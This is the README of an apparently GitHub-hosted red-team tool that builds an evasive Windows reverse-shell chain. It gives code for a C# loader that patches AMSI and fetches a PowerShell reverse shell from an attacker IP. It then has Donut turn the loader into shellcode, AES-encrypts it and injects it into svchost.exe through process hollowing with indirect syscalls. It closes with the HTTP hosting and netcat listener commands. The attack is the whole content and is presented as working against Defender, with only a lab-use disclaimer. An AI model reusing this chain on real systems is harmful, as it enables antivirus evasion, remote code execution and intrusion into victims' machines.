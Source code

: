 # Stealth-Shellcode-Runner

# 🔒 Advanced Shellcode Execution via Process Hollowing and AES Encryption

This project demonstrates a stealthy approach to executing an AES-encrypted PowerShell reverse shell using a custom C# loader, `donut` for shellcode generation, and a custom runner using **indirect syscalls** and **process hollowing** techniques.

---

## 🧩 Step 1 - Build the PowerShell Loader (`Project_Stealth.cs`)

Create a minimal C# console project and include the following logic to:

- Patch AMSI via `.NET Reflection`
- Download and execute a PowerShell payload (e.g., reverse shell)
- Use base64 obfuscation for script names

📌 **Note:** You must manually add a reference to:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

### Core logic:
```csharp
string attackerIP = "192.168.1.94";
PatchAMSI();
string psUrl = $"http://{attackerIP}/shell.ps1";
string psScript = GetStringFromUrl(psUrl);
ExecutePowerShell(psScript);
```

---

## 🧪 Step 2 - Generate Shellcode with Donut

Use [Donut](https://github.com/TheWover/donut) to convert the compiled loader into shellcode:

```bash
.\donut.exe -i "Project_Stealth.exe" -a 2 -f 1 -o shellcode.bin
```

- `-a 2`: Target .NET assemblies
- `-f 1`: Run the .NET assembly as unmanaged shellcode

---

## 🔐 Step 3 - AES Encrypt the Shellcode

Use the Python script to AES-encrypt the generated shellcode.

Paste the generated arrays into your Process Hollowing runner.

---

## 🧠 Step 4 - Execute with Process Hollowing + Indirect Syscalls

Use the included `ShellCode_Runner.cs` script to:

- Create a suspended process (`svchost.exe`)
- Allocate RWX memory via indirect syscall
- Decrypt and write the AES-encrypted shellcode
- Change protection and execute via `NtCreateThreadEx`

> Note: Only `NtAllocateVirtualMemory` uses an indirect syscall via a memory stub. Other syscalls (`NtWriteVirtualMemory`, `NtProtectVirtualMemory`, `NtCreateThreadEx`) are still invoked via direct P/Invoke.

📌 Replace the following placeholders with your actual AES-encrypted shellcode and keys:

```csharp
byte[] encryptedShellcode = new byte[] { ... };
byte[] aesKey = new byte[] { ... };
byte[] aesIV = new byte[] { ... };
```

---

## 🖥️ Hosting the Reverse Shell Payload

The PowerShell reverse shell is hosted in a file named `shell.ps1`.


Then serve the file using Python's HTTP server from the directory containing `shell.ps1`:

```bash
python3 -m http.server 80
```

---

## 📡 Setting Up the Listener

Use `rlwrap` with `netcat` to handle a fully interactive reverse shell:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## ✅ Final Outcome

- AMSI is silently patched
- PowerShell payload is downloaded and executed in memory
- Shellcode is decrypted and injected into a remote process
- Connection established with full interactivity
- Tested and working in OSEP lab environments with Defender enabled

---

**Built for OSEP training and red team lab use. Not intended for real-world offensive operations without proper authorization.**
